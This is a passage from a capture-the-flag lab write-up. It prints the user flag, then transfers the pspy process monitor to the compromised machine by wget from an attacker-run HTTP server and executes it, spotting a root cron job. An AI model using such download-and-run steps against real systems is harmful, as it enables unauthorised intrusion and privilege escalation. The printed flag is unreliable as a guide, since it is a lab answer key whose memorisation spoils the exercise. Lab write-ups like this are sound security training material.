 We can find the flag in the `/var/www/html/admin` directory.

```
www-data@dmv:/var/www/html/admin$ cat flag.txt
cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```
### Answer
```
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

&nbsp;

### What is the root flag?

In order to escalate privileges, we need to run the pspy tool which we have to transfer to the target machine.

For that, let's set up another Python3 server.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.162.57 - - [08/Feb/2024 13:29:03] "GET /pspy64 HTTP/1.1" 200 -
```

Now using `wget` we can download the necessary file.

```
www-data@dmv:/var/www/html$ wget http://10.17.48.138:8000/pspy64
wget http://10.17.48.138:8000/pspy64
--2024-02-08 07:58:55--  http://10.17.48.138:8000/pspy64
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

<SNIP>

2024-02-08 07:59:07 (772 KB/s) - 'pspy64' saved [3104768/3104768]
```

Let's execute the `pspy` file and observe the output.

```
www-data@dmv:/var/www/html$ chmod +x pspy64
chmod +x pspy64
www-data@dmv:/var/www/html$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

<SNIP>

2024/02/08 08:01:01 CMD: UID=0     PID=2051   | bash /var/www/html/tmp/clean.sh 
2024/02/08 08:01:01 CMD: UID=0     PID=2050   | bash /var/www/html/tmp/clean.sh 

<SNIP>
```
